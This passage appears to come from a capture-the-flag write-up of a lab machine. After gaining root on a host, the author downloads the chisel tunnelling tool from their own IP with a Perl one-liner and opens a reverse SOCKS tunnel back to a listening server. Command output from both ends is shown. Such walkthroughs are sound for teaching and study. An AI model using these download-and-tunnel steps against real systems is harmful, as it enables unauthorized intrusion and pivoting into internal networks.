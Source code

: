 We have a lot of going on here and to best visualize what I believe we have, I created the following on [https://app.diagrams.net/](https://app.diagrams.net/).

![Reddish diagrama](images/reddish_initial_diagrama.png)

I believe we will need to use a proxy chain tool to help investigate it here.

```bash
root@nodered:/tmp# perl -MHTTP::Tiny -e '$http = HTTP::Tiny->new; $http->mirror("http://10.10.14.8:8181/chisel", "chisel");'
"http://10.10.14.8:8181/chisel", "chisel");'w; $http->mirror(
```

```bash
root@nodered:/tmp# chmod +x chisel
chmod +x chisel
```

```bash
$ /opt/chisel/v1.9.1/chisel server -p 8000 --reverse          
2024/08/22 22:50:23 server: Reverse tunnelling enabled
2024/08/22 22:50:23 server: Fingerprint gr2BQ7AgYD0oDhBTwYEV9D7J0OkTpEp6TEbbwS6RrNk=
2024/08/22 22:50:23 server: Listening on http://0.0.0.0:8000
```

```bash
root@nodered:/tmp# ./chisel client 10.10.14.8:8000 R:socks
./chisel client 10.10.14.8:8000 R:socks
2024/08/23 05:52:26 client: Connecting to ws://10.10.14.8:8000
2024/08/23 05:52:27 client: Connected (Latency 99.253445ms)
```

```bash
$ /opt/chisel/v1.9.1/chisel server -p 8000 --reverse          
2024/08/22 22:50:23 server: Reverse tunnelling enabled
2024/08/22 22:50:23 server: Fingerprint gr2BQ7AgYD0oDhBTwYEV9D7J0OkTpEp6TEbbwS6RrNk=
2024/08/22 22:50:23 server: Listening on http://0.0.0.0:8000
2024/08/22 22:52:22 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```
